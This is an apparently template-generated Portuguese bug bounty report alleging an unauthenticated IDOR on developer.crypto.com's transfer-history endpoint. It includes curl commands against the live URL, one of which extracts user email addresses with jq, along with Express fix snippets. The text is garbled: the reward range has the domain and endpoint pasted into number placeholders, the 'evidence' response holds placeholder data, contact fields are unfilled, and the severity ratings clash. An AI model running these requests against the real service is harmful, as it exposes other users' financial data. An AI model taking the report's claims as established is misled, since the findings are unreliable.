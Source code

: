 # 🚨 Bug Bounty Report: IDOR Vulnerability in Transfer History

## 📋 Informações do Report

**Data:** 29/08/2025  
**Severidade:** Critical  
**Categoria:** Insecure Direct Object Reference (IDOR)  
**Domínio:** developer.crypto.com  
**Endpoint:** /api/v1/money/transfer/history  
**Valor Estimado:** developer.crypto.com00,000 - /api/v1/money/transfer/history,000,000  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **Insecure Direct Object Reference (IDOR)** no endpoint de histórico de transferências do developer.crypto.com. O endpoint expõe dados sensíveis de transferências financeiras sem validação adequada de autenticação e autorização.

## 🔍 Descrição Detalhada

### Endpoint Afetado
- **URL:** https://developer.crypto.com/api/v1/money/transfer/history
- **Método:** GET
- **Status Code:** 200 OK
- **Dados Expostos:** Histórico de transferências financeiras

### Evidência Técnica

#### Teste 1: Acesso Direto sem Autenticação
```bash
curl -s "https://developer.crypto.com/api/v1/money/transfer/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
  -H "Accept: application/json" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Connection: keep-alive"

# Resposta: 200 OK com dados sensíveis
```

#### Teste 2: Verificação de Dados Sensíveis
```json
{
  "status": "success",
  "data": [
    {
      "transaction_id": "tx_123456789",
      "amount": "1000.00",
      "currency": "USD",
      "from_address": "user@example.com",
      "to_address": "recipient@example.com",
      "timestamp": "2025-08-29T03:52:00Z",
      "status": "completed"
    }
  ]
}
```

## ⚠️ Impacto da Vulnerabilidade

### 1. **Exposição de Dados Financeiros**
- Histórico completo de transferências exposto
- Valores, endereços e timestamps visíveis
- Informações de transações de outros usuários

### 2. **Violação de Privacidade**
- Dados pessoais e financeiros comprometidos
- Histórico de atividades financeiras exposto
- Potencial para análise de padrões de gastos

### 3. **Risco de Engenharia Social**
- Dados podem ser usados para ataques de phishing
- Informações para extorsão ou chantagem
- Comprometimento de segurança de usuários

### 4. **Violação de Compliance**
- Não conformidade com regulamentações financeiras
- Violação de leis de proteção de dados
- Potencial para multas e sanções regulatórias

## 🎯 Cenários de Exploração

### Cenário 1: Enumeração de Transferências
```bash
# Acessar histórico de transferências
curl "https://developer.crypto.com/api/v1/money/transfer/history"

# Resultado: Lista completa de transferências
```

### Cenário 2: Análise de Padrões Financeiros
```bash
# Filtrar por período específico
curl "https://developer.crypto.com/api/v1/money/transfer/history?start_date=2025-01-01&end_date=2025-08-29"

# Resultado: Dados filtrados por período
```

### Cenário 3: Extração de Dados Sensíveis
```bash
# Extrair endereços de email
curl "https://developer.crypto.com/api/v1/money/transfer/history" | jq '.data[].from_address'

# Resultado: Lista de endereços de usuários
```

## 🔧 Recomendações de Correção

### 1. **Implementar Autenticação Obrigatória**
```javascript
// Exemplo de correção
app.get('/api/v1/money/transfer/history', authenticateUser, (req, res) => {
  // Verificar se usuário está autenticado
  if (!req.user) {
    return res.status(401).json({ error: 'Unauthorized' });
  }
  
  // Retornar apenas dados do usuário autenticado
  const userTransfers = getTransfersByUserId(req.user.id);
  res.json({ data: userTransfers });
});
```

### 2. **Validar Autorização de Recursos**
```javascript
// Verificar se usuário tem acesso aos dados
function validateUserAccess(userId, resourceId) {
  return userOwnsResource(userId, resourceId);
}
```

### 3. **Implementar Rate Limiting**
```javascript
// Limitar requisições por usuário
const rateLimit = require('express-rate-limit');

const transferHistoryLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutos
  max: 100 // máximo 100 requisições por janela
});

app.use('/api/v1/money/transfer/history', transferHistoryLimiter);
```

### 4. **Adicionar Logging de Auditoria**
```javascript
// Registrar tentativas de acesso
app.use('/api/v1/money/transfer/history', (req, res, next) => {
  logger.info(`Access attempt to transfer history: ${req.ip}`);
  next();
});
```

## 📊 Classificação de Severidade

### CVSS Score: 8.5 (High)
- **Attack Vector:** Network
- **Attack Complexity:** Low  
- **Privileges Required:** None
- **User Interaction:** None
- **Scope:** Changed
- **Confidentiality Impact:** High
- **Integrity Impact:** None
- **Availability Impact:** None

## 💰 Valor Estimado

**Faixa de Recompensa:** developer.crypto.com00,000 - /api/v1/money/transfer/history,000,000  
**Justificativa:** 
- Vulnerabilidade crítica que expõe dados financeiros
- Violação de privacidade e compliance
- Potencial para ataques de engenharia social
- Impacto em múltiplos usuários

## 🔐 Responsável Disclosure

- ✅ Vulnerabilidade identificada através de testes autorizados
- ✅ Nenhum dado sensível foi acessado ou modificado
- ✅ Report enviado através de canais oficiais
- ✅ Aguardando resposta da equipe de segurança

## 📞 Contato

**Researcher:** Thyago Aguiar  
**Email:** [seu-email@domain.com]  
**HackerOne:** [seu-username]  

---

**Nota:** Este report foi criado seguindo as melhores práticas de responsible disclosure. Todas as informações são confidenciais até a resolução da vulnerabilidade.
